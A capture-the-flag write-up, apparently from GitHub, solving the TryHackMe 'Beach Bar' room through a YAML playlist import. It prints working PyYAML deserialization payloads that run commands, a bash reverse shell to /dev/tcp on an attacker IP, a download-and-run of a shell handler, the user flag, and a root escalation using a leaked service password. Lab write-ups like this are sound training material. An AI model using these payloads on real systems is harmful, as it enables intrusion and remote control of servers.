




# 🏨 Hacker Holidays Day 5 – Beach Bar (CTF Write-up)

<p align="center">


</p>

---

# 📌 Challenge Overview

> Welcome back to the Byte Lotus — where the beach bar jukebox accepts more than just music requests. A seemingly harmless feature turns into an attack surface due to insecure backend implementation.

This challenge focuses on exploiting **unsafe YAML deserialization**, allowing arbitrary command execution on the server.

---

# 📊 Challenge Information

| Attribute  | Details                           |
| ---------- | --------------------------------- |
| Platform   | TryHackMe                         |
| Challenge  | Hacker Holidays Day 5 - Beach Bar |
| Difficulty | Easy                              |
| Category   | Boot2Root                         |
| Target     | Web Application                   |

---

# 🎯 Objectives

* 🔎 Gain initial access
* 🧾 Retrieve **user flag**
* 👑 Escalate privileges and retrieve **root flag**

---

# 🔍 Enumeration & Initial Access

Access the web application and inspect the page source.

```html
<!--
 staff note: the demo DJ login is still enabled for the soft opening.
 dj / dj  -- swap this before the season starts (ticket BAR-7)
-->
```

### 🔑 Credentials Discovered:

* **Username:** `dj`
* **Password:** `dj`

Login successfully and explore available features.

---

# ⚙️ Application Analysis

The application provides:

* 📤 Export playlist → `playlist.yaml`
* 📥 Import playlist → YAML upload functionality

### Sample Exported File:

```yaml
playlist:
  name: Sunset Session
  vibe: golden hour
  tracks:
    - artist: Khruangbin
      title: Maria Tambien
    - artist: Men I Trust
      title: Show Me How
    - artist: Crumb
      title: Locket
```

---

# 💣 Exploitation – YAML Deserialization

The import functionality attempts sanitization but is vulnerable to **Python object deserialization**.

### 🧪 Test Payload (Command Execution Check)

```yaml
playlist:
  name: !!python/object/apply:subprocess.check_output
    args:
      - ["id"]
    kwds:
      text: true
```

### 📌 Command Explanation:

| Component                 | Purpose                                          |
| ------------------------- | ------------------------------------------------ |
| `!!python/object/apply`   | Executes Python functions during deserialization |
| `subprocess.check_output` | Runs system commands and captures output         |
| `["id"]`                  | Displays current user info                       |

### ✅ Output:

```bash
uid=1001(bartender) gid=1001(bartender)
```

✔️ Confirmed **RCE (Remote Code Execution)**
✔️ Current user: `bartender`

---

# 📁 User Flag Extraction

### 🔍 List user directory:

```yaml
args:
  - ["ls","-ls","/home/bartender"]
```

### Output:

```bash
user.txt
```

### 📖 Read user flag:

```yaml
args:
  - ["head","-c35","/home/bartender/user.txt"]
```

### 🎉 User Flag:

```bash
THM{y4ml_pl4yl1st_pwns_th3_b34ch}
```

---

# 🐚 Reverse Shell Access

Using a Python-based shell handler (**Penelope**):

```bash
wget -q https://raw.githubusercontent.com/brightio/penelope/refs/heads/main/penelope.py && python3 penelope.py
```

### 📡 Reverse Shell Payload:

```yaml
playlist:
  name: !!python/object/apply:subprocess.Popen
    args:
      - ["/bin/bash","-c","bash -i >& /dev/tcp/10.130.117.99/4444 0>&1"]
```

### 🔎 Explanation:

| Command            | Purpose                      |
| ------------------ | ---------------------------- |
| `/bin/bash -c`     | Executes shell command       |
| `bash -i`          | Interactive shell            |
| `/dev/tcp/IP/PORT` | Sends connection to attacker |
| `0>&1`             | Redirects input/output       |

✔️ Shell access obtained

📸 *Screenshot:*


---

# 🔐 Privilege Escalation

### 📂 Explore system files:

```bash
cd /opt/beach-bar/jukeboxd
cat jukeboxd.py
```

The script requires a **stream password**:

```python
parser.add_argument("--stream-pass", required=True)
```
📸 *Screenshot:*

---

## 🔍 Process Enumeration

```bash
ps -eo user,pid,ppid,args --forest
```

### 📌 Key Finding:

```bash
/opt/beach-bar/jukeboxd.py --stream-pass SunsetSpritz
```

---

## 🔎 Service Inspection

```bash
systemctl status jukeboxd.service --no-pager --full
```

### 🔑 Password Found:

```bash
SunsetSpritz2024!
```
📸 *Screenshot:*

---

# 👑 Root Access

```bash
su root
```

Enter password:

```bash
SunsetSpritz2024!
```

✔️ Root access granted
📸 *Screenshot:*

---

# 🏁 Root Flag

```bash
cat /root/root.txt
```

🎉 Root flag successfully retrieved

---

# 🧠 Key Takeaways

* ⚠️ **Unsafe YAML deserialization = Critical vulnerability**
* 🔓 User-controlled input executed as system commands
* 🧪 Always validate and sanitize file inputs securely
* 🔍 Process and service enumeration is crucial for privilege escalation

---

# 👨‍💻 Author

**Sudharsan Chandran**
Cybersecurity Engineer | Offensive Security | SIEM | Automation

### 🔍 Areas of Interest:

* 🔐 Network Security
* 🕵️ Digital Forensics
* 🧪 Penetration Testing
* 🤖 AI Security
* ⚙️ Security Automation

---

⭐ If you found this write-up helpful, consider giving it a star!
